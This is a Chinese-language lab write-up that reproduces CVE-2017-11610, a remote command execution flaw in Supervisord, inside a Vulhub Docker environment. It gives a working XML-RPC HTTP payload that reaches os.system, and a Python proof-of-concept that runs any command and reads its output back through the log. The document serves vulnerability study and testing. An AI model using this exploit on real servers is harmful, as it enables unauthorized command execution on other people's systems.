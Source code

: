 # Supervisord 远程命令执行漏洞 CVE-2017-11610

## 漏洞描述

Supervisord是一款Python开发，用于管理后台应用（服务）的工具，其角色类似于Linux自带的Systemd。

参考链接：

- https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html
- https://blogs.securiteam.com/index.php/archives/3348
- https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b

## 环境搭建

Vulhub执行以下命令启动环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:9001`即可查看Supervisord的页面。

**启动时遇到错误exec user process caused "no such file or directory"的解决方法 **

可能遇到如下错误：

![image-20220302143005976](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021430024.png)

错误原因：

`docker-entrypoint.sh`中最后一行的结束符成了`\r\n` 导致Docker镜像中的Linux Shell脚本文件无法执行。Linux/Mac的结束符是`\n`，所以Shell解释器会将脚本文件中的`\r`作为命令行的一部分来执行。这就是出现 “no such file or directory” 的原因。

解决方式：

通过`dos2unix docker-entrypoint.sh`命令将其转换成为unix格式文件。

## 漏洞复现

直接执行任意命令：

```
POST /RPC2 HTTP/1.1
Host: your-ip:9001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/awesome_poc</string>
</param>
</params>
</methodCall>
```

![image-20220302143654919](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021436012.png)

命令`touch /tmp/awesome_poc`执行成功：

![image-20220302143616511](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021436578.png)

### 关于直接回显的POC

@Ricter 在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC： [poc.py](https://github.com/vulhub/vulhub/blob/master/supervisor/CVE-2017-11610/poc.py)，直接贴出来吧：

```python
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])
```

使用Python3执行并获取结果：`./poc.py "http://your-ip:9001/RPC2" "command"`：

![image-20220302144156140](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021441167.png)

